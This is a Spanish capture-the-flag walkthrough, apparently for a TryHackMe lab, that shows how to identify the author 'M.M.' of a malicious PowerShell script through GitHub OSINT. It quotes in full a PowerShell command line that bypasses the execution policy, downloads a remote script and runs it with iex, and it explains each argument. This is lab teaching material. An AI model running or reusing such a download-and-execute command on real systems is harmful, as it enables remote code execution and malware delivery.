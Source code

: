 ```yaml
---
title: 03. Q3
daft: "false"
tags: 
cssclasses:
  - hbox
---
```

---
Creado por: [@raf181_](https://github.com/raf181)  | Fecha: `01-12-2024`

---
### Guía: ¿Quién es M.M.? (Pregunta 3)  
Para resolver esta pregunta, sigue los pasos descritos a continuación:

---

#### **1. Analiza el archivo PowerShell**  
- Examina el script malicioso (`IS.ps1`) extraído de la URL proporcionada.  
- Busca pistas en el código, como nombres o firmas.  
- Identifica la línea que contiene el mensaje:  
    **"Created by the one and only M.M."**

---

#### **2. Encuentra al autor del script**  
En la pregunta anterior, podemos observar cómo el resultado del comando `exfiltool` nos muestra esta línea con argumentos de la línea de comando para PowerShell:  

```Shell
Command Line Arguments : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
```  

1. **-ep Bypass**: Este argumento desactiva las políticas de ejecución de PowerShell, permitiendo que los scripts se ejecuten sin restricciones.  
2. **-nop**: Este argumento indica que no se debe cargar el perfil de usuario de PowerShell, evitando que se apliquen configuraciones personalizadas que podrían interferir con la ejecución del script.  
3. **-c**: Este argumento especifica que el texto siguiente es un comando que debe ejecutarse.  
4. **(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1')**: Este comando crea un nuevo objeto `Net.WebClient` y utiliza su método `DownloadFile` para descargar un archivo desde la URL especificada `https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1` y guardarlo en `C:\ProgramData\s.ps1`.  
5. **iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)**: Este comando utiliza `iex` (Invoke-Expression) para ejecutar el contenido del archivo `s.ps1` que se descargó previamente.  

En resumen, estos argumentos están diseñados para descargar un script de PowerShell desde una URL y ejecutarlo localmente, desactivando las restricciones de seguridad de PowerShell para permitir su ejecución sin interferencias.  

Una vez entendidos estos argumentos, podemos identificar al autor del script. GitHub utiliza una sintaxis de enlaces muy clara:  

**Enlace Original:**  
[raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)  

**Enlace Descompuesto:**  

| Protocolo | Dominio                   | Usuario         | Repositorio | Referencia | Rama   | Archivo |
| --------- | ------------------------- | --------------- | ----------- | ---------- | ------ | ------- |
| https://  | raw.githubusercontent.com | MM-WarevilleTHM | IS          | refs/heads | main   | IS.ps1  |

Con esta información, podemos construir un enlace que nos lleve al repositorio específico del usuario para verificar si es el autor:  

| Protocolo | Dominio    | Usuario         | Repositorio | Referencia | Rama   | Archivo |
| --------- | ---------- | --------------- | ----------- | ---------- | ------ | ------- |
| https://  | github.com | MM-WarevilleTHM | IS          |            |        |         |

[https://github.com/MM-WarevilleTHM/IS](https://github.com/MM-WarevilleTHM/IS)  

Si accedemos al enlace, podemos encontrar el script original en su repositorio.  
![](99.%20Inserts/Pasted%20image%2020241201185725.png)  

---

#### **4. Investiga el perfil del usuario MM-WarevilleTHM**  
En su perfil, podemos observar que solo tiene dos repositorios y no forma parte de ninguna organización.  
![](99.%20Inserts/Pasted%20image%2020241201185957.png)  

Si accedemos al repositorio de M.M., encontramos el siguiente archivo `README.md`:  
![](99.%20Inserts/image.png)  
Donde se menciona su nombre.

---

### **Formato de Respuesta**  
Escribe el nombre completo del usuario en el campo de respuesta:  

```
##### ######  
```

---  

Con este método, podrás identificar quién es M.M. a través de sus malas prácticas de OPSEC. ¡Buena suerte!>)
